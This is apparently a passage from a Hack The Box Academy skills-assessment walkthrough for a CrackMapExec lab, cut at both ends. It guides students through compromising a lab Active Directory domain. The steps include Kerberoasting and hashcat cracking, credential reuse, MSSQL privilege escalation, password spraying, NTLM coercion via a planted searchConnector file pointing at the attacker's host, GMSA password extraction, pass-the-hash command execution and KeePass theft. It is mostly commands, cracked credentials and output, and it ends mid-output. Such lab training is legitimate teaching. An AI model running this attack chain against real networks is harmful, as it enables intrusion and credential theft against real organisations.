LDAP        dc01            389    DC01             $krb5tgs$23$*Atul$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/Atul*$e5980399058c523d5f3d7713519b203d$c352eef2ccb716d753e1d71732e0741e6ccc9122b36f3087a031e8ee3de88c0b1a10e8f5fae48273a48df912cb6653bd334a27a2a19c6c8efda5d6e2b5cc831e5c9dbb3d37a1ba33dcf1d2920333d7d63038ca2f5546d1fb1fbec976601b3b5cf6406a108ce8591a3f76344e2c90b3b9a6a6c10095784b9ed6049c1a0ff8592710acd069f36de79fdd6a0678d2f73e8ea8cdfa04c2787a737681e01857beb4b82ce18d2f921d49f6f27e44a7ce7f2242db1a4b8f9fadf753ac964f77796e4b080d8753713e47673f431d5c2246cb6111d45fd69c76ccf3b7630bf9ef21bc6fa1024987719318a20c21e4e2f93c14b9afaca0cc6452ed1e3b5b253330ccfebd4ec29ef60f53e602b3b212f7c928e6c31d05e549a6c2a2ed0563190ecc0e7c4a39099923eacee8bff4e955efc1055db68a4a0261009593637cc0eaf6d3456593963ec058b15f4479733a01c464435979a60a57eacbf823b2f4abe0edf6c76a000541f82af087f54d8c75f070bfa4739252934d1986f5d87c7461a9468cb392d3329d1ce1c398a79da371719b78a045d61c9bbf35f1466a1f151181ce4a01f91adfa93a67a777c0db16d2f628ae5da1fed1cf4d00b9ab34568fd711274a03bb2c295d6a135a2ca9437c1a71fa00971001cf74727663a52bccfd89043f4053bd2a3636cf4e7a7ccfaa04d07764294f4e2501e556d8d82812416d43c637ff324ceb0e88dd523ed5b4c0e9bbce47832087bbe46c9c6e3183ad3ff4ad34ba8ecf891ce745c009cb4a89101c2813564f2c2a9475f0ca10194f8a13d9629e63b5e7e6f10d8d9afc1dbe1dca3114f0d89d2fe9ef1c2ede0164d8386cf01f80fd5c9ded7d76f0b2ae9b292e13dceac191ae95892c4cb173ef75fd58633b5bd1454fb948af37079e1c43155de84425890fcc071a7a211be11f1bc4a1de68fa48d862b53309e0685f6fc1c9ae80707e897c1631caa3772b54858f964c3e7c819a8632746453bd085aa5babc71dc34e53dbd504a2a41b3990ee9dfb3a7f6f3e95619db8bffe854a09c23da6ea70702fd37882967f4c0a8592168d7a8c3c349e9e9565e9d032ef4833a8bc89e6a99191ceadf432f00d1a19315547da45d415b1f35a3915e5bdededa9bcb6fec7898c17422ca3c140d36d7b3868cdcc032846cf878a8d8ba913625e8ddb312e72ebd3e3985028bfcbad406db3f1b7974ff044099d76a559d01f0a7a3c1749e830df9ebf95c7356158d68688dc59906c1f85b077d416ee352d6b3d20b236c40037d5e16f7643b109d61672fcd2905506a3ac0a2290d482c4f90bba886b55f035d2b27029896e83cb8170ac5ff93c91fd32f6b51c0251b16262528be1ebb7ee4531c512e593ae0c14c7376f39ddef523394e150b67321ecf2d6954f47df045a055c900689afb71876a546f572d0ad52464c8de4f8a374d0b92af4ebec219d72aff620799889004229d0f957682d7d6cb9cd246a871a42b1793a1dd74786ed852f6a5b86572b2c6c39a30467b1f171645fbead8bc83348be4
```

Revealing the password hash for `Atul`, students need to use `Hashcat` to find the plain text password:

Code: shell

```shell
hashcat -m 13100 skkerberoasting.out /usr/share/wordlists/rockyou.txt --force
```

Skills Assessment

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ hashcat -m 13100 skkerberoasting.out /usr/share/wordlists/rockyou.txt --force

hashcat (v6.1.1) starting...

$krb5tgs$23$*Atul$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/Atul*$e5980399058c523d5f3d7713519b203d$c352eef2ccb716d753e1d71732e0741e6ccc9122b36f3087a031e8ee3de88c0b1a10e8f5fae48273a48df912cb6653bd334a27a2a19c6c8efda5d6e2b5cc831e5c9dbb3d37a1ba33dcf1d2920333d7d63038ca2f5546d1fb1fbec976601b3b5cf6406a108ce8591a3f76344e2c90b3b9a6a6c10095784b9ed6049c1a0ff8592710acd069f36de79fdd6a0678d2f73e8ea8cdfa04c2787a737681e01857beb4b82ce18d2f921d49f6f27e44a7ce7f2242db1a4b8f9fadf753ac964f77796e4b080d8753713e47673f431d5c2246cb6111d45fd69c76ccf3b7630bf9ef21bc6fa1024987719318a20c21e4e2f93c14b9afaca0cc6452ed1e3b5b253330ccfebd4ec29ef60f53e602b3b212f7c928e6c31d05e549a6c2a2ed0563190ecc0e7c4a39099923eacee8bff4e955efc1055db68a4a0261009593637cc0eaf6d3456593963ec058b15f4479733a01c464435979a60a57eacbf823b2f4abe0edf6c76a000541f82af087f54d8c75f070bfa4739252934d1986f5d87c7461a9468cb392d3329d1ce1c398a79da371719b78a045d61c9bbf35f1466a1f151181ce4a01f91adfa93a67a777c0db16d2f628ae5da1fed1cf4d00b9ab34568fd711274a03bb2c295d6a135a2ca9437c1a71fa00971001cf74727663a52bccfd89043f4053bd2a3636cf4e7a7ccfaa04d07764294f4e2501e556d8d82812416d43c637ff324ceb0e88dd523ed5b4c0e9bbce47832087bbe46c9c6e3183ad3ff4ad34ba8ecf891ce745c009cb4a89101c2813564f2c2a9475f0ca10194f8a13d9629e63b5e7e6f10d8d9afc1dbe1dca3114f0d89d2fe9ef1c2ede0164d8386cf01f80fd5c9ded7d76f0b2ae9b292e13dceac191ae95892c4cb173ef75fd58633b5bd1454fb948af37079e1c43155de84425890fcc071a7a211be11f1bc4a1de68fa48d862b53309e0685f6fc1c9ae80707e897c1631caa3772b54858f964c3e7c819a8632746453bd085aa5babc71dc34e53dbd504a2a41b3990ee9dfb3a7f6f3e95619db8bffe854a09c23da6ea70702fd37882967f4c0a8592168d7a8c3c349e9e9565e9d032ef4833a8bc89e6a99191ceadf432f00d1a19315547da45d415b1f35a3915e5bdededa9bcb6fec7898c17422ca3c140d36d7b3868cdcc032846cf878a8d8ba913625e8ddb312e72ebd3e3985028bfcbad406db3f1b7974ff044099d76a559d01f0a7a3c1749e830df9ebf95c7356158d68688dc59906c1f85b077d416ee352d6b3d20b236c40037d5e16f7643b109d61672fcd2905506a3ac0a2290d482c4f90bba886b55f035d2b27029896e83cb8170ac5ff93c91fd32f6b51c0251b16262528be1ebb7ee4531c512e593ae0c14c7376f39ddef523394e150b67321ecf2d6954f47df045a055c900689afb71876a546f572d0ad52464c8de4f8a374d0b92af4ebec219d72aff620799889004229d0f957682d7d6cb9cd246a871a42b1793a1dd74786ed852f6a5b86572b2c6c39a30467b1f171645fbead8bc83348be4:hooters1
```

Having compromised a new set of credentials (`Atul:hooters1`), students need to enumerate shares on the domain controller:

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.3 -u Atul -p hooters1 --shares
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.3 -u Atul -p hooters1 --shares

SMB         172.16.15.3     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.15.3     445    DC01             [+] INLANEFREIGHT.LOCAL\Atul:hooters1 
SMB         172.16.15.3     445    DC01             [+] Enumerated shares
SMB         172.16.15.3     445    DC01             Share           Permissions     Remark
SMB         172.16.15.3     445    DC01             -----           -----------     ------
SMB         172.16.15.3     445    DC01             ADMIN$                          Remote Admin
SMB         172.16.15.3     445    DC01             C$                              Default share
SMB         172.16.15.3     445    DC01             Ccache                          Ccache Files for Users
SMB         172.16.15.3     445    DC01             CertEnroll      READ            Active Directory Certificate Services share
SMB         172.16.15.3     445    DC01             DEV             READ            Development Share
SMB         172.16.15.3     445    DC01             DEV_INTERN                      Development Share for Interns
SMB         172.16.15.3     445    DC01             IPC$            READ            Remote IPC
SMB         172.16.15.3     445    DC01             NETLOGON        READ            Logon server share 
SMB         172.16.15.3     445    DC01             SYSVOL          READ            Logon server share 
```

Using the spider and pattern options, students need to look for text files on the DEV share:

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.3 -u Atul -p hooters1 --spider DEV --pattern txt
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.3 -u Atul -p hooters1 --spider DEV --pattern txt

SMB         172.16.15.3     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.15.3     445    DC01             [+] INLANEFREIGHT.LOCAL\Atul:hooters1 
SMB         172.16.15.3     445    DC01             [*] Started spidering
SMB         172.16.15.3     445    DC01             [*] Spidering .
SMB         172.16.15.3     445    DC01             //172.16.15.3/DEV/note.txt [lastm:'2022-12-08 18:32' size:242]
SMB         172.16.15.3     445    DC01             //172.16.15.3/DEV/sql_dev_creds.txt [lastm:'2022-12-08 19:36' size:40]
```

After discovering the two text files, students need to download them to their attack host:

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.3 -u Atul -p hooters1 --share DEV --get-file note.txt note.txt
proxychains4 -q crackmapexec smb 172.16.15.3 -u Atul -p hooters1 --share DEV --get-file sql_dev_creds.txt sql_dev_creds.txt
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.3 -u Atul -p hooters1 --share DEV --get-file note.txt note.txt

SMB         172.16.15.3     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.15.3     445    DC01             [+] INLANEFREIGHT.LOCAL\Atul:hooters1 
SMB         172.16.15.3     445    DC01             [*] Copy note.txt to note.txt
SMB         172.16.15.3     445    DC01             [+] File note.txt was transferred to note.txt
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.3 -u Atul -p hooters1 --share DEV --get-file sql_dev_creds.txt sql_dev_creds.txt

SMB         172.16.15.3     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.15.3     445    DC01             [+] INLANEFREIGHT.LOCAL\Atul:hooters1 
SMB         172.16.15.3     445    DC01             [*] Copy sql_dev_creds.txt to sql_dev_creds.txt
SMB         172.16.15.3     445    DC01             [+] File sql_dev_creds.txt was transferred to sql_dev_creds.txt
```

Sensitive information such as credentials are often left in scripts and files on open file shares. Students need to check the sql_dev_creds.txt file to further the attack chain:

Code: shell

```shell
cat sql_dev_creds.txt 
```

Skills Assessment

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ cat sql_dev_creds.txt 
��sqldev:Sq!D3vUs3R
```

Subsequently, students need to reuse these credentials against the `mssql` service on SQL01:

Code: shell

```shell
proxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth

MSSQL       172.16.15.15    1433   SQL01            [*] Windows 10.0 Build 17763 (name:SQL01) (domain:SQL01)
MSSQL       172.16.15.15    1433   SQL01            [+] sqldev:Sq!D3vUs3R 
```

The credentials are valid against the SQL01 host. Students need to now check for local privilege escalation vectors:

Code: shell

```shell
proxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth -M mssql_priv
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth -M mssql_priv

MSSQL       172.16.15.15    1433   SQL01            [*] Windows 10.0 Build 17763 (name:SQL01) (domain:SQL01)
MSSQL       172.16.15.15    1433   SQL01            [+] sqldev:Sq!D3vUs3R 
MSSQL_PR... 172.16.15.15    1433   SQL01            [+] sqldev can impersonate netdb (sysadmin)
```

The module reveals that students can impersonate the `netdb` user:

Code: shell

```shell
proxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth -M mssql_priv -o ACTION=privesc
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth -M mssql_priv -o ACTION=privesc

MSSQL       172.16.15.15    1433   SQL01            [*] Windows 10.0 Build 17763 (name:SQL01) (domain:SQL01)
MSSQL       172.16.15.15    1433   SQL01            [+] sqldev:Sq!D3vUs3R 
MSSQL_PR... 172.16.15.15    1433   SQL01            [+] sqldev can impersonate netdb (sysadmin)
MSSQL_PR... 172.16.15.15    1433   SQL01            [+] sqldev is now a sysadmin! (Pwn3d!)
```

Finally, students can read the flag:

Code: shell

```shell
proxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth -x "more C:\Users\Public\flag.txt"
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth -x "more C:\Users\Public\flag.txt"

MSSQL       172.16.15.15    1433   SQL01            [*] Windows 10.0 Build 17763 (name:SQL01) (domain:SQL01)
MSSQL       172.16.15.15    1433   SQL01            [+] sqldev:Sq!D3vUs3R (Pwn3d!)
MSSQL       172.16.15.15    1433   SQL01            [+] Executed command via mssqlexec
MSSQL       172.16.15.15    1433   SQL01            --------------------------------------------------------------------------------
MSSQL       172.16.15.15    1433   SQL01            R3Us3_D4t@_Fr0m_DB
```

Answer: {hidden}

# Skills Assessment

## Question 3

### "Gain access to the SQL01 and submit the contents of the flag located in C:\Users\Public\flag.txt."

Students now have permissions to enumerate the `mssql` database itself, and need to start by checking the tables in the interns database:

Code: shell

```shell
roxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth -q "SELECT table_name from interns.INFORMATION_SCHEMA.TABLES"
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth -q "SELECT table_name from interns.INFORMATION_SCHEMA.TABLES"

MSSQL       172.16.15.15    1433   SQL01            [*] Windows 10.0 Build 17763 (name:SQL01) (domain:SQL01)
MSSQL       172.16.15.15    1433   SQL01            [+] sqldev:Sq!D3vUs3R (Pwn3d!)
MSSQL       172.16.15.15    1433   SQL01            table_name
MSSQL       172.16.15.15    1433   SQL01            --------------------------------------------------------------------------------------------------------------------------------
MSSQL       172.16.15.15    1433   SQL01            details
```

Enumerating further, students need to inspect the details table:

Code: shell

```shell
proxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth -q "SELECT * from [interns].[dbo].details"
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth -q "SELECT * from [interns].[dbo].details"
MSSQL       172.16.15.15    1433   SQL01            [*] Windows 10.0 Build 17763 (name:SQL01) (domain:SQL01)
MSSQL       172.16.15.15    1433   SQL01            [+] sqldev:Sq!D3vUs3R (Pwn3d!)
MSSQL       172.16.15.15    1433   SQL01            intern_id
MSSQL       172.16.15.15    1433   SQL01            intern_pass
MSSQL       172.16.15.15    1433   SQL01            --------------------------------------------------
MSSQL       172.16.15.15    1433   SQL01            --------------------------------------------------
MSSQL       172.16.15.15    1433   SQL01            intern1
MSSQL       172.16.15.15    1433   SQL01            Welcome1

<SNIP>

MSSQL       172.16.15.15    1433   SQL01            intern33
MSSQL       172.16.15.15    1433   SQL01            Welcome1
```

Using the contents to create a list of usernames (intern1 to intern30):

Skills Assessment

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ cat internusers.txt 
intern1
intern2
intern3
intern4
intern5
intern6
intern7
intern8
intern9
intern10
intern11
intern12
intern13
intern14
intern15
intern16
intern17
intern18
intern19
intern20
intern21
intern22
intern23
intern24
intern25
intern26
intern27
intern28
intern29
intern30
```

Students need to spray this user list against a weak default password, which is "Welcome1":

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.3 -u internusers.txt -p Welcome1
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.3 -u internusers.txt -p Welcome1

<SNIP>

SMB         172.16.15.3     445    DC01             [+] INLANEFREIGHT.LOCAL\intern30:Welcome1 
```

Another set of credentials is confirmed, this time `intern30:Welcome1`. Students need to check access to shared folders:

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.3 -u intern30 -p Welcome1 --shares
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.3 -u intern30 -p Welcome1 --shares

SMB         172.16.15.3     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.15.3     445    DC01             [+] INLANEFREIGHT.LOCAL\intern30:Welcome1 
SMB         172.16.15.3     445    DC01             [+] Enumerated shares
SMB         172.16.15.3     445    DC01             Share           Permissions     Remark
SMB         172.16.15.3     445    DC01             -----           -----------     ------
SMB         172.16.15.3     445    DC01             ADMIN$                          Remote Admin
SMB         172.16.15.3     445    DC01             C$                              Default share
SMB         172.16.15.3     445    DC01             Ccache                          Ccache Files for Users
SMB         172.16.15.3     445    DC01             CertEnroll      READ            Active Directory Certificate Services share
SMB         172.16.15.3     445    DC01             DEV                             Development Share
SMB         172.16.15.3     445    DC01             DEV_INTERN      READ,WRITE      Development Share for Interns
SMB         172.16.15.3     445    DC01             IPC$            READ            Remote IPC
SMB         172.16.15.3     445    DC01             NETLOGON        READ            Logon server share 
SMB         172.16.15.3     445    DC01             SYSVOL          READ            Logon server share 
```

Students will find read and write access to the DEV_INTERN share. Next, they should prepare responder:

Code: shell

```shell
sudo responder -I tun0
```

Skills Assessment

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

<SNIP>

[+] Listening for events...
```

Subsequently, students need to use the `drop-sc` module in order to perform the NTLM relay:

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.3 -u intern30 -p Welcome1 -M drop-sc -o URL=\\\\PWNIP\\secret FILENAME=secret
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.3 -u intern30 -p Welcome1 -M drop-sc -o URL=\\\\10.10.15.68\\secret FILENAME=secret
[!] Module is not opsec safe, are you sure you want to run this? [Y/n] Y
SMB         172.16.15.3     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.15.3     445    DC01             [+] INLANEFREIGHT.LOCAL\intern30:Welcome1 
DROP-SC     172.16.15.3     445    DC01             [+] Found writable share: DEV_INTERN
DROP-SC     172.16.15.3     445    DC01             [+] Created secret.searchConnector-ms file on the DEV_INTERN share
```

Skills Assessment

```shell-session
[SMB] NTLMv2-SSP Client   : 10.129.204.182
[SMB] NTLMv2-SSP Username : INLANEFREIGHT\james
[SMB] NTLMv2-SSP Hash     : james::INLANEFREIGHT:5a18c9a5bf536f6e:276353322CA222CB66B9936187443724:0101000000000000009ED1764F2BD901B64002D7AFB17E160000000002000800440043003100390001001E00570049004E002D005700470044004A005A0050004A00590057003900410004003400570049004E002D005700470044004A005A0050004A0059005700390041002E0044004300310039002E004C004F00430041004C000300140044004300310039002E004C004F00430041004C000500140044004300310039002E004C004F00430041004C0007000800009ED1764F2BD90106000400020000000800300030000000000000000000000000210000EF9E5C2EFCD74A75ED40B47F202D752A08F3B4DC719E97DFF874FB89219C401B0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310035002E00360038000000000000000000
```

Capturing yet another hash, students need to save it to a file and crack it with hashcat:

Code: shell

```shell
hashcat -m 5600 james.hash /usr/share/wordlists/rockyou.txt --force
```

Skills Assessment

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ hashcat -m 5600 james.hash /usr/share/wordlists/rockyou.txt --force

hashcat (v6.1.1) starting...

<SNIP>

JAMES::INLANEFREIGHT:5a18c9a5bf536f6e:276353322ca222cb66b9936187443724:0101000000000000009ed1764f2bd901b64002d7afb17e160000000002000800440043003100390001001e00570049004e002d005700470044004a005a0050004a00590057003900410004003400570049004e002d005700470044004a005a0050004a0059005700390041002e0044004300310039002e004c004f00430041004c000300140044004300310039002e004c004f00430041004c000500140044004300310039002e004c004f00430041004c0007000800009ed1764f2bd90106000400020000000800300030000000000000000000000000210000ef9e5c2efcd74a75ed40b47f202d752a08f3b4dc719e97dff874fb89219c401b0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310035002e00360038000000000000000000:04apple
```

Students need to enumerate GMSA accounts:

Code: shell

```shell
proxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth -X "Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword"
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec mssql 172.16.15.15 -u sqldev -p 'Sq!D3vUs3R' --local-auth -X "Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword"

MSSQL       172.16.15.15    1433   SQL01            [*] Windows 10.0 Build 17763 (name:SQL01) (domain:SQL01)
MSSQL       172.16.15.15    1433   SQL01            [+] sqldev:Sq!D3vUs3R (Pwn3d!)
MSSQL       172.16.15.15    1433   SQL01            [+] Executed command via mssqlexec
MSSQL       172.16.15.15    1433   SQL01            --------------------------------------------------------------------------------
MSSQL       172.16.15.15    1433   SQL01            #< CLIXML
MSSQL       172.16.15.15    1433   SQL01            DistinguishedName                          : CN=svc_devadm,CN=Managed Service Accounts,DC=INLANEFREIGHT,DC=LOCAL
MSSQL       172.16.15.15    1433   SQL01            Enabled                                    : True
MSSQL       172.16.15.15    1433   SQL01            Name                                       : svc_devadm
MSSQL       172.16.15.15    1433   SQL01            ObjectClass                                : msDS-GroupManagedServiceAccount
MSSQL       172.16.15.15    1433   SQL01            ObjectGUID                                 : 529a80c9-10d3-40f1-84f9-9363007476f9
MSSQL       172.16.15.15    1433   SQL01            PrincipalsAllowedToRetrieveManagedPassword : {CN=james,CN=Users,DC=INLANEFREIGHT,DC=LOCAL}
MSSQL       172.16.15.15    1433   SQL01            SamAccountName                             : svc_devadm$
MSSQL       172.16.15.15    1433   SQL01            SID                                        : S-1-5-21-3514599724-1682172728-4136368490-4646

<SNIP>
```

Using `jame's` credentials to get the GMSA password for `svc_devadm$`:

Code: shell

```shell
proxychains4 -q crackmapexec ldap 172.16.15.3 -u james -p 04apple --gmsa
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec ldap 172.16.15.3 -u james -p 04apple --gmsa

SMB         172.16.15.3     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
LDAP        172.16.15.3     636    DC01             [+] INLANEFREIGHT.LOCAL\james:04apple 
LDAP        172.16.15.3     636    DC01             [*] Getting GMSA Passwords
LDAP        172.16.15.3     636    DC01             Account: svc_devadm$          NTLM: 93bc545f18898ea7fad983b707e3ad75
```

Students are now able to enumerate machines as `svc_devadm$`, passing the hash to achieve remote code execution:

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.20 -u 'svc_devadm$' -H 93bc545f18898ea7fad983b707e3ad75 -x "more c:\users\administrator\desktop\flag.txt"
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.20 -u 'svc_devadm$' -H 93bc545f18898ea7fad983b707e3ad75 -x "more c:\users\administrator\desktop\flag.txt"

SMB         172.16.15.20    445    DEV01            [*] Windows 10.0 Build 17763 x64 (name:DEV01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.15.20    445    DEV01            [+] INLANEFREIGHT.LOCAL\svc_devadm$:93bc545f18898ea7fad983b707e3ad75 (Pwn3d!)
SMB         172.16.15.20    445    DEV01            [+] Executed command 
SMB         172.16.15.20    445    DEV01            W3_F1nD_Cr3d$_EverY_Wh3re
```

Finally, the flag is read to be `W3_F1nD_Cr3d$_EverY_Wh3re`.

Answer: {hidden}

# Skills Assessment

## Question 4

### "Read the flag from the shared folder Ccache"

Now that students have admin privileges on `DEV01`, they need to use the `keepass_discover` module to identify a `keepass` database:

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.20 -u 'svc_devadm$' -H 93bc545f18898ea7fad983b707e3ad75 -M keepass_discover
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.20 -u 'svc_devadm$' -H 93bc545f18898ea7fad983b707e3ad75 -M keepass_discover

SMB         172.16.15.20    445    DEV01            [*] Windows 10.0 Build 17763 x64 (name:DEV01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.15.20    445    DEV01            [+] INLANEFREIGHT.LOCAL\svc_devadm$:93bc545f18898ea7fad983b707e3ad75 (Pwn3d!)
KEEPASS_... 172.16.15.20    445    DEV01            [*] No KeePass-related process was found
KEEPASS_... 172.16.15.20    445    DEV01            Found C:\Users\Administrator\AppData\Roaming\KeePass\KeePass.config.xml
KEEPASS_... 172.16.15.20    445    DEV01            Found C:\Users\Administrator\Application Data\KeePass\KeePass.config.xml
KEEPASS_... 172.16.15.20    445    DEV01            Found C:\Users\Administrator\Desktop\Database_devadm.kdbx
```

Then, students need to use the module `keepass_trigger` to capture the content of the database.

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.20 -u svc_devadm$ -H 93bc545f18898ea7fad983b707e3ad75 -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=C:/Users/Administrator/AppData/Roaming/KeePass/KeePass.config.xml
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.20 -u svc_devadm$ -H 93bc545f18898ea7fad983b707e3ad75 -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=C:/Users/Administrator/AppData/Roaming/KeePass/KeePass.config.xml

[!] Module is not opsec safe, are you sure you want to run this? [Y/n] Y
SMB         172.16.15.20    445    DEV01            [*] Windows 10.0 Build 17763 x64 (name:DEV01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.15.20    445    DEV01            [+] INLANEFREIGHT.LOCAL\svc_devadm$:93bc545f18898ea7fad983b707e3ad75 (Pwn3d!)
KEEPASS_... 172.16.15.20    445    DEV01            
